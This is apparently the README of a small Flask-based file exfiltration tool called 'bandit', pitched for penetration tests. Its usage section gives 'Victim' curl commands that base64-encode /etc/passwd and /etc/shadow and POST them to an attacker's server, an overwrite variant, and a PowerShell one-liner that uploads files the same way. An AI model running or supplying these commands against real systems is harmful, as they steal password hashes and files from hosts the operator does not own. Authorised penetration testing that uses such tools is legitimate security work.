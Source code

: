 # bandit
A quick and easy way to exfiltrate files

# purpose
Bandit is designed as a simple way to exfiltrate files during a penetration test without relying on dedicated tools on a compromised host. However, it can be used in any situation where uploads need to happen quickly and easily - for example, automated backup programs. 
While the server is written in python/flask, the uploads are handled through base64 and curl - both of which are nearly ubiquitous on most unix systems. This miniscule footprint means no file movement is needed to begin using bandit on any given linux-based system. The simplicity of the protocol also allows for custom programs to be written that leverage it - for example, a windows program could handle encoding and uploading the files. 

# usage
Attacker: ```python3 bandit.py [port]```

Victim: ```curl -d "passwd=$(base64 /etc/passwd)&shadow=$(base64 /etc/shadow)" http://yourip:port/```

It is important to use double quotes to allow bash to process reading the files and encoding them before upload

If you wish to overwrite the existing files, instead of failing to upload if they exist on the server, specify the /overwrite path. This will scribble over any existing files on the server that conflict with the attempted upload, so use with caution. Yes, path travesal checks are made before file IO

Victim: ```curl -d "passwd=$(base64 /etc/passwd)&shadow=$(base64 /etc/shadow)" http://yourip:port/overwrite```

Bandit is also compatible with Windows Powershell, although usage is not as straightforward. To save you some time, here is a oneliner to upload a single file, filename.txt, to the remote server as uploadedfile:

```if ($PWD.Provider.Name -eq 'FileSystem') { [System.IO.Directory]::SetCurrentDirectory($PWD) } ; Invoke-WebRequest -Uri http://yourip:port -Method POST -Body @{"uploadedfile"=[Convert]::ToBase64String([IO.File]::ReadAllbytes("filename.txt"))}```


Note that bandit supports multiple files uploaded at the same time. Simply add as many parameters as you wish, one for each file, in the following format:

[desired filename]=[base64 encoded contents]
